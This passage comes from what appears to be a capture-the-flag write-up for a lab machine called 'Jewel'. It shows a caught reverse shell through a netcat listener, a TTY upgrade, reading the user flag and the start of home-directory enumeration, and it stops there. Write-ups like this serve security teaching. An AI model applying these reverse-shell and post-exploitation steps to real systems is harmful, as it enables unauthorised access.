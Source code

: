 When I send that to the username, and then refresh `/articles`, I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.211.
Ncat: Connection from 10.10.10.211:45312.
bash: cannot set terminal process group (786): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$ id
uid=1000(bill) gid=1000(bill) groups=1000(bill)

```

I’ll upgrade to a full TTY:

```

bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
bill@jewel:~/blog$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
bill@jewel:~/blog$

```

From there, I can read `user.txt`:

```

bill@jewel:~$ cat user.txt
1867ef18************************

```

## Shell as root

### Enumeration

#### Home Dir

In bill’s home directory, there’s an interesting file, `.google_authenticator`:

```

bill@jewel:~$ ls -la
total 52
drwxr-xr-x  6 bill bill 4096 Sep 17 14:10 .
drwxr-xr-x  3 root root 4096 Aug 26 09:32 ..
lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .bash_history -> /dev/null
-rw-r--r--  1 bill bill  220 Aug 26 09:32 .bash_logout
-rw-r--r--  1 bill bill 3526 Aug 26 09:32 .bashrc
drwxr-xr-x 15 bill bill 4096 Sep 17 17:16 blog
drwxr-xr-x  3 bill bill 4096 Aug 26 10:33 .gem
-rw-r--r--  1 bill bill   43 Aug 27 10:53 .gitconfig
drwx------  3 bill bill 4096 Aug 27 05:58 .gnupg
-r--------  1 bill bill   56 Aug 28 07:00 .google_authenticator
drwxr-xr-x  3 bill bill 4096 Aug 27 10:54 .local
-rw-r--r--  1 bill bill  807 Aug 26 09:32 .profile
```